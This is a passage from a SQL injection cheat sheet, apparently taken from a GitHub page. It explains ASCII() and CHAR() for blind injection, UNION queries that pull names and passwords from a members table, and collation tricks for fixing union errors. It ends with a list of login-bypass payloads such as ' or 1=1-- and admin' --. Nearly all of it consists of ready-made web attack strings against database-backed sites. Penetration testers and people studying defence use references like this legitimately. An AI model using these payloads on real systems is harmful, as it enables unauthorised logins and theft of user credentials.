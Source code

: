Returns ASCII character value of leftmost character. A must have function for Blind SQL Injections.

`SELECT ASCII('a')`

- `CHAR()` (SM)

Convert an integer of ASCII.

`SELECT CHAR(64)`

## Union Injections

With union you do SQL queries cross-table. Basically you can poison query to return records from another table.

`SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members `

This will combine results from both news table and members table and return all of them.

Another Example:
`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

### UNION – Fixing Language Issues

While exploiting Union injections sometimes you get errors because of different language settings (*table settings, field settings, combined table / db settings etc.*) these functions are quite useful to fix this problem. It's rare but if you dealing with *Japanese, Russian, Turkish* etc. applications then you will see it.

- SQL Server (S)

Use `field` **`COLLATE`**` SQL_Latin1_General_Cp1254_CS_AS` or some other valid one - *check out SQL Server documentation*.

`SELECT header FROM news UNION ALL SELECT name COLLATE SQL_Latin1_General_Cp1254_CS_AS FROM members`

- MySQL (M)

`Hex() `for every possible issue

### Bypassing Login Screens (SMO+)

*SQL Injection 101*, Login tricks

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- ....
- Login as different user (SM*)

`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`
**Old versions of MySQL doesn't support union queries*
